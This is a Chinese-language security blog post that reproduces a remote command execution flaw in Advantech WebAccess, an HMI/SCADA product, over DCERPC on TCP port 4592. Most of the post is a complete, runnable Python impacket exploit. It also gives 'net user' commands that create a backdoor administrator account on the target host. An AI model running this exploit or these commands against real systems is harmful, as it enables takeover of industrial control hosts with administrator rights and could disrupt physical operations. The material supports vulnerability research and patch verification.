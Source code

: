 # WebAccess远程命令执行漏洞复现 - secshell
LocalConst.POST_MATHJAX = ""

某地 2020 年工业互联网大赛中在外网区和控制区之间部署 mes 系统，上面安装 WebAccess 程序，现场复现成功。

## 漏洞说明

研华 WebAccess 是全世界第一套全浏览器架构的 HMI/SCADA 组态软件，可以无缝整合研华工业自动化事业群的产品，主要分为智能基础建设与智能制造两大类，这两类产品也同时组成了研华在智能自动化的物联网架构，而研华 WebAccess 正是这个物联网架构的核心。

此漏洞允许攻击者使用 RPC 协议通过 TCP 端口 4592 执行远程命令。

通过利用恶意分布式计算环境 / 远程过程调用（DCERPC），webvrpcs.exe 服务将命令行指令传递给主机， webvrpcs.exe 服务以管理员访问权限运行。版本小于 8.3、8.3.1、8.3.2 仍然存在特定的安全漏洞。

## 漏洞复现

`python exp.py ip`

复现成功截图

\[![](https://secpentest.oss-accelerate.aliyuncs.com/imgs/20201031002546.png)

]([https://secpentest.oss-accelerate.aliyuncs.com/imgs/20201031002546.png](https://secpentest.oss-accelerate.aliyuncs.com/imgs/20201031002546.png))

添加用户

```


`cmd.exe /c net user test1 P3ssw0rd /add
cmd.exe /c net localgroup administrators test1 /add

`
```

截图

\[![](https://secpentest.oss-accelerate.aliyuncs.com/imgs/20201031002815.png)

]([https://secpentest.oss-accelerate.aliyuncs.com/imgs/20201031002815.png](https://secpentest.oss-accelerate.aliyuncs.com/imgs/20201031002815.png))

exp

```


`#!/usr/bin/python2.7

import sys, struct
from impacket import uuid
from impacket.dcerpc.v5 import transport

def call(dce, opcode, stubdata):
  dce.call(opcode, stubdata)
  res = -1
  try:
    res = dce.recv()
  except Exception, e:
    print "Exception encountered..." + str(e)
    sys.exit(1)
  return res

if len(sys.argv) != 2:
  print "Provide only host arg"
  sys.exit(1)

port = 4592
interface = "5d2b62aa-ee0a-4a95-91ae-b064fdb471fc"
version = "1.0" 

host = sys.argv[1]

string_binding = "ncacn_ip_tcp:%s" % host
trans = transport.DCERPCTransportFactory(string_binding)
trans.set_dport(port)

dce = trans.get_dce_rpc()
dce.connect()

print "Binding..."
iid = uuid.uuidtup_to_bin((interface, version))
dce.bind(iid)

print "...1"
stubdata = struct.pack("<III", 0x00, 0xc351, 0x04)
call(dce, 2, stubdata)

print "...2"
stubdata = struct.pack("<I", 0x02)
res = call(dce, 4, stubdata)
if res == -1:
  print "Something went wrong"
  sys.exit(1)
res = struct.unpack("III", res)

if (len(res) < 3):
  print "Received unexpected length value"
  sys.exit(1)

print "...3"
# ioctl 0x2711
stubdata = struct.pack("<IIII", res[2], 0x2711, 0x204, 0x204)
command = "..\\..\\windows\\system32\\calc.exe"
fmt = "<" + str(0x204) + "s"
stubdata += struct.pack(fmt, command)
call(dce, 1, stubdata)

print "\nDid it work?"

dce.disconnect()

`
```

本文参考[https://www.secshi.com/30934.html](https://www.secshi.com/30934.html)

最后修改：2021 年 02 月 20 日 02 : 16 AM

© 允许规范转载 
 [https://secshell.cn/index.php/vuln/52.html](https://secshell.cn/index.php/vuln/52.html)
